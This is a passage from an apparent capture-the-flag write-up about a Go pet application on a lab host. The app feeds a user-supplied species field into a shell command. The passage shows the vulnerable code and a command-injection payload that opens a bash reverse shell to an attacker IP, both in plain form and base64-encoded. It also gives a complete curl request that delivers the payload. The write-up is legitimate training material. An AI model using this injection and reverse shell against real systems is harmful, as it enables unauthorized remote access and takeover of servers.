 Looking at the `main.go` file we see a section that is probably vulnerable to a command injection:

```go
func loadCharacter(species string) string {
    cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
    stdoutStderr, err := cmd.CombinedOutput()
    if err != nil {
        return err.Error()
    }
    return string(stdoutStderr)
}
```

This function, `loadCharacter`, is called by `addPet`, which is called when a pet is added through the user interface. Thus, we can control the `species` variable in this function.

As you can see, POST requests go right to the `addPet` function:

```go
func petHandler(w http.ResponseWriter, r *http.Request) {
    // Dispatch by method
    if r.Method == http.MethodPost {
        addPet(w, r)
    } else if r.Method == http.MethodGet {
        getPets(w, r)

    } else {
        http.Error(w, "Method not allowed", http.StatusMethodNotAllowed)
    }
    // TODO: Add Update and Delete
}
```

In the `handleRequest` we discover that pets are added by POSTing the data to `/api/pet`. We could have also found this out using our browser's developer tools and monitoring the network requests.

## Foothold

Let's try a command injection using curl since the website's interface only lets us select species from a drop down. Our command injection payload is `dog;bash -i >& /dev/tcp/10.10.14.25/17344 0>&1`. We need to specify `dog` to finish off the `cat` command since we only control the command input after `cat characteristics/[OUR INPUT]`. We are using a simple bash reverse shell ([more reverse shell options here](https://www.revshells.com/)).

We can encode our payload as base64 so we don't have to deal with formatting issues: `echo -n "bash -i >& /dev/tcp/10.10.14.25/17344 0>&1" | base64`: `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS8xNzM0NCAwPiYx`. Now, our payload is `dog;echo -n 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS8xNzM0NCAwPiYx' | base64 -d | bash`

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data '{"name":"a","species":"dog;echo -n 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS8xNzM0NCAwPiYx' | base64 -d | bash"}' \
  http://pets.devzat.htb/api/pet
```
